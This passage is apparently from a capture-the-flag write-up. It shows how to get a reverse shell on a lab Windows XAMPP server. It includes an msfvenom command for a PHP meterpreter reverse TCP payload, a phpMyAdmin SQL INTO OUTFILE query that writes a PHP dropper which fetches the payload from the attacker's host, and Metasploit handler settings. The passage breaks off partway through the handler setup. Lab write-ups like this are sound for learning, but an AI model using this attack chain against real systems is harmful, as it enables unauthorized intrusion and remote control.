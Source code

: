 
For the other two flags, we can find one in the `c:\xampp` directory, and the other in one of the users's desktop directory.

![](7.png)

# **Foothold**

Even though we've got all the flags, let's get a shell.

First, we need to generate a php reverse shell using msfvenom.

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f raw -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload                                                                           
[-] No arch selected, selecting arch: php from the payload                    
No encoder specified, outputting raw payload                                                                                                                 
Payload size: 34851 bytes                                                     
Saved as: shell.php 
```

>Change the LHOST value to your tun0 ip.

now on the same directory, setup an http server with python using the following command `sudo python3 -m http.server 80`.

Now let's move to `phpmyadmin`. Click on the flag database, then on the SQL Tab and enter the following code.

```sql
SELECT "<?php file_put_contents('shell.php',file_get_contents('http://10.11.10.10/shell.php'))?>" INTO OUTFILE "C:\\xampp\\htdocs\\up.php"
```

>Change the ip address to your tun0 ip.

This sql query would save a php code to a file in the root directory of the web server.

What the php code does is save the payload we generated with msfvenom to the root directory of the webserver.

Now press go.

![](8.png)

Now we need to request the first php file "up.php" so that our reverse shell payload would get uploaded. We can do that with either the browser or using `curl`.

![](9.png)

Great! We can see it got uploaded successfully.

Now go to metasploit and use the multi/handler module and set the following options.

```
set payload php/meterpreter_reverse_tcp
set lhost tun0
set lport 9999
```
